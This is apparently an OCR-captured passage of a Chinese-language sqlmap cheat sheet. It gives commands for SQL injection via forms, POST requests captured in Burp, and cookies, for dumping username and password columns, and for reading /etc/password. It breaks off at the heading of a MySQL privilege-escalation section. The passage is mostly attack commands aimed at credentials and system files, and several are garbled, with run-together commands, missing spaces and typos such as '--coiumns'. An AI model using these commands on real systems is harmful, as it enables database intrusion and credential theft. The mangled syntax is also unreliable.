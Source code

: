 > sqlmap.py -u URL --forms
> 
> sqlmap.py -u URL --forms --dbs
> 
> sqlmap.py -u URL --forms --current-db
> 
> sqlmap.py -u URL --forms -D 数据库名称--tables
> 
> sqlmap.py -u URL --forms -D 数据库名称 -T 表名 --columns
> 
> sqlmap.py -u URL --forms -D 数据库名称 -T 表名 -Cusername，password --dump

### 12.读取linux下文件

 sqlmap.py-u "url" --file /etc/password

### 13.延时注入

sqlmap.py -u URL --technique -T--current-user

### 14. sqlmap 结合burpsuite进行post注入

结合burpsuite来使用sqlmap：

（1）浏览器打开目标地址[http://www.antian365.com](http://www.antian365.com)

（2）配置burp代理(127.0.0.1:8080)以拦截请求

（3）点击登录表单的submit按钮

（4）Burp会拦截到了我们的登录POST请求

（5）把这个post请求复制为txt, 我这命名为post.txt 然后把它放至sqlmap目录下

（6）运行sqlmap并使用如下命令：

```
./sqlmap.py -r post.txt -p tfUPass
```

### 15.sqlmap cookies注入

sqlmap.py -u "[http://127.0.0.1/base.PHP](http://127.0.0.1/base.PHP)"–cookies "id=1"  –dbs –level 2

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie里面的参数，当>=3的时候将检查User-agent和Referer。可以通过burpsuite等工具获取当前的cookie值，然后进行注入：

```
sqlmap.py -u 注入点URL --cookie"id=xx" --level 3sqlmap.py -u url --cookie "id=xx"--level 3 --tables(猜表名)sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 --coiumnssqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 -C username，password --dump
```

###  16.mysql提权

（1）连接mysql数据打开一个交互shell:
